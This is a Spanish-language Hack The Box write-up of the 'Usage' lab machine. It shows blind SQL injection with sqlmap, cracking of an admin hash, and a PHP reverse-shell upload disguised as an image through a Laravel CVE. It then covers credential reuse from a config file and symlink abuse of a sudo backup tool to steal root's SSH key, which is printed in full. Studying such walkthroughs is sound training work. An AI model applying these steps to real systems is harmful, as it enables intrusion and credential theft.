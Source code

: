 ```yaml
---
title: Usage
description:  Usage es una máquina Linux fácil de manejar que presenta un sitio de blog vulnerable a inyecciones SQL, lo que permite extraer y descifrar la contraseña cifrada del administrador. Esto lleva al acceso al panel de administración, donde se explota un módulo desactualizado de Laravel para subir un web shell PHP y obtener ejecución remota de código. En la máquina, las credenciales en texto plano almacenadas en un archivo permiten el acceso SSH como otro usuario, quien puede ejecutar un binario personalizado como root. La herramienta realiza una llamada insegura a 7zip, lo que se aprovecha para leer la clave SSH privada del usuario root y comprometer completamente el sistema.
date: 2024-06-07
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-usage/usage_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - fuzzing_web
  - sqli
  - sqli_blind
  - cve
  - data_leaks
  - password_attacks
  - ssh
  - http
  - tcp
  - symlink_abuse
  - sudo_abuse
  - php
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - cve_exploitation
  - privilege_escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo nmap -sS -sC -sV 10.10.11.18 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](/assets/img/htb-writeup-usage/usage1_1.png)

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '10.10.11.18\tusage.htb\tadmin.usage.htb' > sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/usage:-$ dirb http://usage.htb/ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

+ http://usage.htb/login (CODE:200|SIZE:5141)
+ http://usage.htb/registration (CODE:200|SIZE:5112)
+ http://usage.htb/logout (CODE:302|SIZE:334)
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-usage/usage1_2.png)
![](/assets/img/htb-writeup-usage/usage1_3.png)
![](/assets/img/htb-writeup-usage/usage2.png)

Luego de unas pruebas, encuentro que la direccion `/forget-password` es vulnerable a SQL injection Blind.

![](/assets/img/htb-writeup-usage/usage3_1.png)

Utilizo Sqlmap para enumerar la base de datos.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request.txt -p email --level 5 --risk 3 --threads 10 -D database_name --tables
```
![](/assets/img/htb-writeup-usage/usage3_2.png)

Y logro encontrar un hash que le pertenece al usuario `administrator`.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request4.txt  -p email --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
[INFO] retrieved: admin
[DEBUG] performed 40 queries in 67.10 seconds
[DEBUG] analyzing table dump for possible password hashes
Database: usage_blog
Table: admin_users
[1 entry]
+--------------------------------------------------------------+----------
| id | name   | avatar  | password   | username | created_at     | updated_at   | remember_token      

|1|Administrator|<blank>|$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2|admin|2023-08-13 02:48:26|2024-05-30 22:06:55|kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT|
+--------------------------------------------------------------+----------
```

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2' > hash

/home/kali/Documents/htb/machines/usage:-$ hashcat --show hash
3200  | bcrypt $2*$, Blowfish (Unix)                    | Operating System

/home/kali/Documents/htb/machines/usage:-$ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
```

Consigo logearme como `administrador`. 

---
## CVE Exploitation

Analizando la pagina encuentro que la version de laravel es vulnerable, [CVE-2023-24249](https://nvd.nist.gov/vuln/detail/CVE-2023-24249).

Por tanto puedo insertar una reverse shell.

<https://pentestmonkey.net/tools/web-shells/php-reverse-shell>

![](/assets/img/htb-writeup-usage/usage4.png)

Solo permite subir un archivo de imagen a la web. Por lo que los pasos a seguir, son:

* Cambiar la extencion de la reverse shell de `.php` a `.jpg`.

* Me pongo a la escucha con Netcat por dos puertos distintos (la conexion por la shell no durara mucho tiempo, por lo que tengo que establecer otra conexion por un puerto distinto).

* Subo la shell e intercepto la peticion `POST` con Burp Suite, para cambiar manualmente la extenccion a `.php`.

* Devuelvo la peticion manipulada y navego donde esta alojada la shell `http://admin.usage.htb/uploads/img/injection.php` para ejecutarla.

* Finalmente recibo la conexion por el puerto 1234 y rapidamente creo una nueva conexion mas estable por el puerto 4444.

```terminal
/home/kali/Documents/htb/machines/usage:-$ mv injection.php injection.jpg
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 1234
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 4444
```

![](/assets/img/htb-writeup-usage/usage4_3.png)
![](/assets/img/htb-writeup-usage/usage4_4.png)

```terminal
dash@usage:~$ cat user.txt
```

---
## Privilege Escalation

![](/assets/img/htb-writeup-usage/usage5.png)

En el archivo `.monitrc` encuentro credenciales para el usuario `xander`

```terminal
dash@usage:~$ cat .monitrc
	Enable Web Access
	set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

/home/kali/Documents/htb/machines/usage:-$ ssh xander@10.10.11.18
xander@10.10.11.18's password: 3nc0d3d_pa$$w0rd
```
El usario `xander` puede ejecutar el comando `/usr/bin/usage_management` como sudo.

```terminal
xander@usage:~$ sudo -l
```

![](/assets/img/htb-writeup-usage/usage6.png)

```terminal
xander@usage:~$ sudo /usr/bin/usage_management
	Choose an option:
	1. Project Backup
	2. Backup MySQL data
	3. Reset admin password
	Enter your choice (1/2/3): 1
```
Me muevo al directorio `/var/www/html` y creo un archivo vacio llamado `@id_rsa`

```terminal
xander@usage:/var/www/html$ touch @id_rsa
```
Con `id_rsa` creo un enlace simbólico en el directorio actual que apunta al archivo `/root/.ssh/id_rsa`. Esto significa que cualquier acceso al archivo `id_rsa` en `/var/www/html` se redirige al archivo real ubicado en `/root/.ssh/id_rsa`.

```terminal
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
```

![](/assets/img/htb-writeup-usage/usage8.png)

```terminal
kali/home/kali/Documents/htb/machines/usage:-$ nano id_rsa
	-----BEGIN OPENSSH PRIVATE KEY-----
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
	QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
	QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
	AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
	H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
	-----END OPENSSH PRIVATE KEY-----
	
kali/home/kali/Documents/htb/machines/usage:-$ chmod 600 id_rsa
```
```terminal
kali/home/kali/Documents/htb/machines/usage:-$ ssh -i id_rsa root@10.10.11.18
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

root@usage:~# cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/597" target="_blank">Usage Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }
